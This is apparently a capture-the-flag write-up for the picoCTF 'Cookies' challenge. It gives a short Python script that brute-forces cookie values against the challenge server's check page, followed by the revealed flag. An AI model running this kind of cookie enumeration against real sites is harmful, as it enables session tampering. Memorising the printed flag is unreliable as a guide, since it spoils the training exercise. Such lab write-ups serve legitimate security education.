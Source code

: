 # Cookies
## 題目
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:21485/

## 解答
```python
import requests
from bs4 import BeautifulSoup 
for i in range(28):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    
    r = requests.get('http://mercury.picoctf.net:21485/check', headers=headers)
    if ('picoCTF' in r.text):
        soup = BeautifulSoup(r.text,"html.parser")
        print(soup.code.text)
        break
```
```shell
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```
